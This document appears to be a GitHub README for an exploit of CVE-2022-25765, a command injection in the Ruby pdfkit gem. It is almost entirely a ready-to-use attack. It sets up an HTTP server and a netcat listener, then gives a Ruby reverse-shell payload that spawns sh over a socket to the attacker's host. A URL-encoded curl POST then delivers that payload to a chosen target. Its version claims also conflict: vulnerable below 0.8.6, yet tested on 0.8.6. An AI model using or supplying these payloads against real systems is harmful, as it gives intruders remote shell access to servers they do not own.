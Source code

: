 # CVE-2022-25765-pdfkit-Exploit-Reverse-Shell
pdfkit &lt;0.8.6 command injection shell. The package pdfkit from 0.0.0 are vulnerable to Command Injection where the URL is not properly sanitized. (Tested on ver 0.8.6) - CVE-2022-25765

Pre-reqs:
1. Setup HTTP Server - <i>python3 -m http.server</i>
2. Setup Netcat Listener - <i>nc -lvnp 4444</i>

Reverse Ruby Shell via webpage:
<i>http://LOCAL-IP:LOCAL-HTTP-PORT/?name=%20` ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("LOCAL-IP",LOCAL-LISTEN-PORT))')</i>


Via CURL (modify <b>bold</b> values):
<i>curl '<b>TARGET-URL</b>' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: <b>TARGET_URL</b>' -H 'Connection: keep-alive' -H 'Referer: <b>TARGET_URL</b>' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'url=http%3A%2F%2F<b>LOCAL-IP</b>%3A<b>LOCAL-HTTP-PORT</b>%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%22<b>LOCAL-IP</b>%22%2C<b>LOCAL-LISTEN-PORT</b>%29%29%27%60'</i>
